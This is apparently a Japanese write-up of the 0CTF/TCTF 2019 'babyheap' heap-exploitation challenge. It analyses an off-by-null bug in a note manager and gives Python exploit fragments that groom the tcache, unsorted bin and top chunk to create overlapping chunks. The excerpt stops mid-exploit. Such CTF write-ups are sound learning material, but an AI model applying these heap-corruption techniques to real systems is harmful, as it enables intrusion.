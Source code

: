 # [pwn 550pts] babyheap - 0CTF/TCTF 2019 Quals
64ビットバイナリで，セキュリティ機構が有効になっています．
```
$ checksec -f babyheap
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      Yes     0               2       babyheap
```
はじめにsetupでランダムなアドレスにRW領域を確保し、その中のランダムなオフセットを返します。以降そのアドレス(mgr)をベースに何やかんやが行われます。
```c
typedef struct {
  long is_used;
  long size;
  char *ptr;
} Note;
```
allocateではサイズが1から0x58までのnoteをcallocできます。最大16個までを同時に確保できます。
updateではis_usedが1のnoteに対して、元のサイズ以下のサイズであればreadできます。
deleteではis_usedが1のnoteに対して、is_used, sizeを0にして、最後にfreeしてptrもNULLにします。
最後にviewではis_usedが1のnoteに対して、sizeだけwriteします。
ということでメイン機能には脆弱性がなさそうです。あとは細かいreadやインデックスチェックを見ていきます。するとupdateのreadlineにoff-by-nullがあることが分かります。

さて、off-by-nullがあるのですが問題があります。確保できるサイズは1から0x58までなので、fastbinのサイズ自体が0になってしまい何も意味が無いということです。pbのwriteup（参考文献[1]）によると、topのサイズを書き換えることでmalloc_condsolidateを呼ぶようです。これによりfree済みのfastbinがくっついてunsorted binに入ります。そのためにsetupで`malloc(0x1f000);`してたんですね〜。

まず、次のようにしてサイズ0x2b0のunsorted binを作り、それをoff-by-nullで0x200にします。
```python
# evict tcache
for i in range(7):
    allocate(0x28)
    update(i, 'A' * 0x28) # make it fast to shrink top
for i in range(7):
    delete(i)
for i in range(7):
    allocate(0x48)
    update(i, 'B' * 0x48)
for i in range(7):
    delete(i)
# now top->size == 0x1000

# allocate chunks for overlap
for i in range(15):
    allocate(0x28)
    update(i, 'C' * 0x28)
for i in range(15):
    delete(i)

for i in range(7):
    allocate(0x18) # 0 - 6
    update(i, str(i) * 0x17)
# now top->size == 0x21
allocate(0x18) # 7

# unsortedbin: size == 0x2b0 (0x30 * 15 - 0x20)
update(7, '7' * 0x18) # make it 0x200
```
さらに次のようにしてチャンクをoverlapさせます。
```python
# unsortedbin: size == 0x2b0 (0x30 * 15 - 0x20)
update(7, '7' * 0x18) # make it 0x200
allocate(0x18) # 8
allocate(0x18) # 9
```